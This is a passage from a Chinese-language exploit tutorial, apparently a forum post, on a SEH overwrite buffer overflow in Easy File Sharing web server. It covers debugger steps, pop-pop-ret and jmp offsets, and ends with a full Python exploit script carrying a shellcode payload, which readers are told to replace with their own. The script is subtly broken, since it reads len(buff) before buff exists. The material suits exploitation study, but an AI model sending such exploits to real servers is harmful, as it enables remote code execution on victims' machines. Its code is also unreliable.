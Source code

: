 程序再次断在了这个地方，原因是读取\[EAX+4C\]错误（触发了异常），因为这时EAX值被改成了我们写入的溢出值 “bbbb”，这时我们看看SEH Chain：

![Screenshot 2021-11-05 221830](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f3dbaceeda44058745ef06dd297bd044546869a3.jpg)

SEH已经被改写为我们选择的**pop-pop-ret**指令地址了，很好，接下来我们按快捷键

```php
Shift + F9
```

执行Immunity Debugger的 **忽略异常继续执行的命令**，

![Screenshot 2021-11-05 222342](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c4865f0a5f14a1ea8daa71f57951f350ad426f60.jpg)

可以看到程序跑进我们写的 **int3** 指令里断下来了，我们离成功更近一步了，注意观察这时候是跑进我们写的第二个 **int3** 指令里，所以如果我们从第二个 **int3** 指令开始写入我们的shellcode，那么程序就会开始执行我们的shellcode，所以我们只要把POC\_2.py的代码进行适当更改就能当成 exp（exploit——漏洞利用脚本）用了。

**4的答案是：**从问题3的答案中你可以看到，我在POC\_2.py中填写的 jmp指令的 **偏移数** 是 0x14 (20),其实这个偏移数的大小没有一个严格的规定，但是它的大小不能超过它后面 **nop** 指令的数量，不然 jmp指令 就很可能在shellcode的起始地址后面落地。所以你可以让不断调试让 jmp 刚刚好跳到shellcode的起始地址上，也可以让 jmp指令 后面 **nop** 指令的数量尽可能大，确保 jmp跳到shellcode前面的 **nop** 指令上（ **nop** 指令是空指令，会直接跳过，直到遇到其他指令），这样程序都能正常执行你的shellcode。

- - - - - -

当你想通上面四个问题时，接下来你就能在把上面的POC\_2.py中的shellcode改成你自己的shellcode了，即获得了这个漏洞程序的exp，easyfileshring\_exp.py：

```php
import socket
import sys

host = str(sys.argv[1])  
port = int(sys.argv[2])  

a = socket.socket() 

print "Connecting to: " + host + ":" + str(port)
a.connect((host,port)) 

offset = 'a' * 4061     # 覆盖SEH结构体的第一个成员NEXT SEH的偏移
Nseh = "\xeb\x14\x90\x90"   # jmp 0x14 指令
seh = "\xa3\x02\x01\x10"    # 我们找到的 pop-pop-ret 指令的地址——例如 0x100102a3
nop = "\x90" * 20   # nop指令——防止jmp跳转过头
shellcode = (
"\xd9\xcb\xbe\xb9\x23\x67\x31\xd9\x74\x24\xf4\x5a\x29\xc9"
"\xb1\x13\x31\x72\x19\x83\xc2\x04\x03\x72\x15\x5b\xd6\x56"
"\xe3\xc9\x71\xfa\x62\x81\xe2\x75\x82\x0b\xb3\xe1\xc0\xd9"
"\x0b\x61\xa0\x11\xe7\x03\x41\x84\x7c\xdb\xd2\xa8\x9a\x97"
"\xba\x68\x10\xfb\x5b\xe8\xad\x70\x7b\x28\xb3\x86\x08\x64"
"\xac\x52\x0e\x8d\xdd\x2d\x3c\x3c\xa0\xfc\xbc\x82\x23\xa8"
"\xd7\x94\x6e\x23\xd9\xe3\x05\xd4\x05\xf2\x1b\xe9\x09\x5a"
"\x1c\x39\xbd"
)                   
# 这个shellcode的功能是 弹计算机并使程序崩溃（利用kali漏洞利用库里的 39009.py 里的shellcode） 

exploit = offset + Nseh + seh + nop + shellcode
fill =  "b" * (5000-len(buff)) # 防止栈溢出未触发异常
buff = exploit + fill

a.send("GET " + buff + " HTTP/1.0\r\n\r\n")

a.close()

print "Done..."
```
